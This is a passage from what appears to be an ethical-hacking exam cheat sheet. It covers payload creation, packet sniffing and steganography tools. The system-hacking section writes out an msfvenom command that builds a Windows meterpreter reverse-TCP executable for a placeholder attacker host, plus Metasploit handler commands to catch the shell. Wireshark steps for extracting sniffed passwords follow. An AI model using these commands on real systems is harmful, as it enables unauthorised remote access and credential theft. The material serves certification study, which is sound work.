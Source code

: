 ## 3. System Hacking

**To create a Payload**
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=attacker_IP LPORT=attacker_Port -o filename.exe 

**To take a reverse TCP connection from windows**
msfdb init && msfconsole 
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST= attacker-IP  
set LPORT= attacker-Port 
run

## 4. SNIFFING

### Filtering packets 
**Password Sniffing using Wireshark**
In pcap file apply filter: http.request.method==POST or http.request.method==get(you will get all the post or get request) 
Now to capture password click on edit in menu bar, then near Find packet section, on the "display filter" select "string", also select "Packet details" 
from the drop down of "Packet list", also change "narrow & wide" to "Narrow UTF-8 & ASCII", and then type "pwd" in the find section.

**To the Find DOS & DDOS**
go to Statistics and Select Conversations , sort by packets in IPv4 based on number of Packets transfer
Statistics > Conversations > IPv4 > Packets
To find DOS (SYN and ACK) : tcp.flags.syn == 1  , tcp.flags.syn == 1 and tcp.flags.ack == 0

### Follow up Streams
select_packet > follow > TCP Stream

| Finding Files | 3 |
| Finding Comments | 4 |
| Search Strings | 5 |

## 5. Steganography

**SNOW** - for hiding and extracting hidden data from a text file
**Openstego** - for hiding and extracting hidden data from an image file
**CovertTCP** - for hiding data in TCP/IP packet headers

### SNOW

run cmd from SNOW folder
SNOW.EXE -C -m “<hidden text>” -p “<password>” <txt file> <output txt file>
-C - compile
-m - text we want to hide
-p - password
Extracting data:
SNOW.EXE -C -p <password> <provided txt file>

